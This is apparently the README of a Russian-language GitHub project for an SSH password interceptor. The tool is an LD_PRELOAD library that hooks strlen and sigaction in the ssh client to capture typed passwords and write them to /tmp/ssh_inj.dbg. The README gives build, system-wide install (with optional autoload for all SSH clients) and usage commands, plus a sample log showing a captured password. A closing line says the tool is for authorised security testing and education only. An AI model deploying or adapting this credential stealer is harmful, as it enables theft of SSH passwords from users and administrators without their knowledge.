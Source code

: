 # SSH Password Interceptor

Библиотека для перехвата паролей SSH-клиента при помощи LD_PRELOAD.

## Быстрый старт

### Клонирование репозитория

```bash
# Клонирование репозитория
git clone https://github.com/Personaz1/ScrScr.git

# Переход в директорию проекта
cd ScrScr
```

### Быстрая установка и тестирование

```bash
# Компиляция
make

# Быстрое тестирование (требуется запущенный SSH-сервер)
./quick_test.sh

# Установка в систему (требуются права root)
sudo ./install.sh
```

### Простое использование

```bash
# Локальное использование без установки
LD_PRELOAD=./libssh_inject.so ssh user@server

# После системной установки
LD_PRELOAD=/usr/lib/libssh_inject.so ssh user@server
```

## Описание

Библиотека перехватывает функции `strlen`, `sigaction` и `exit` для отслеживания процесса ввода пароля SSH-клиентом. 
Используется машина состояний для определения момента, когда пользователь вводит пароль.

## Содержимое проекта

- `state.hpp` - Основная логика перехвата, машина состояний
- `ssh_inject.cpp` - Реализация перехвата системных функций
- `Makefile` - Файл сборки проекта
- `install.sh` - Скрипт установки библиотеки
- `uninstall.sh` - Скрипт удаления библиотеки
- `quick_test.sh` - Скрипт быстрого тестирования
- `README.md` - Документация по проекту

## Требования

- Linux-система с glibc
- Компилятор g++ с поддержкой C++11
- Утилита make
- Права root для установки (опционально)

## Компиляция

```bash
make
```

## Установка

### Вариант 1: Локальное использование

Просто скомпилируйте библиотеку и запускайте программы с LD_PRELOAD:

```bash
# Компилируем
make

# Создаем файл для логов
touch /tmp/ssh_inj.dbg
chmod 666 /tmp/ssh_inj.dbg

# Запускаем ssh с предзагрузкой библиотеки
LD_PRELOAD=./libssh_inject.so ssh user@server
```

### Вариант 2: Системная установка

```bash
# Запуск скрипта установки (требуются права root)
sudo ./install.sh
```

Скрипт установки выполнит следующие действия:
1. Скомпилирует библиотеку
2. Установит её в /usr/lib/
3. Создаст файл логов
4. Опционально настроит автозагрузку для всех SSH-клиентов

## Использование

После установки библиотеки, запуск SSH с перехватом:

```bash
LD_PRELOAD=/usr/lib/libssh_inject.so ssh user@server
```

Захваченные пароли сохраняются в файле `/tmp/ssh_inj.dbg`.

## Тестирование

Для быстрого тестирования библиотеки используйте скрипт:
```bash
./quick_test.sh
```

Скрипт автоматически:
1. Скомпилирует библиотеку
2. Подготовит лог-файл
3. Запустит тестовое подключение к localhost
4. Проверит захват пароля

## Просмотр логов

```bash
cat /tmp/ssh_inj.dbg
```

Пример содержимого лога:
```
AUTH: pid=123456, user=root, cmdline=ssh user@server
[ + ] Injection started
... Password prompt detected
... sigaction(SIGTTOU) detected
... Password captured via strlen: "password123"
[ + ] Captured:
    Date: Sun Dec 31 23:59:59 2023
    User: root
    Cmdline: ssh user@server
    Password: "password123"
    Succeeded: 1
----
```

## Особенности работы

Библиотека использует следующую последовательность для перехвата:
1. Обнаружение промпта "assword:" через `strlen`
2. Обнаружение вызова `sigaction(SIGTTOU)`
3. Захват следующего вызова `strlen` как пароля
4. Определение успешности авторизации

## Удаление

Для удаления библиотеки используйте скрипт:
```bash
sudo ./uninstall.sh
```

## Примечание по безопасности

Данный инструмент предназначен исключительно для тестирования систем безопасности и образовательных целей.
Использование без разрешения владельца системы может нарушать законодательство.

## Очистка

Для удаления скомпилированных файлов:
```bash
make clean
``` 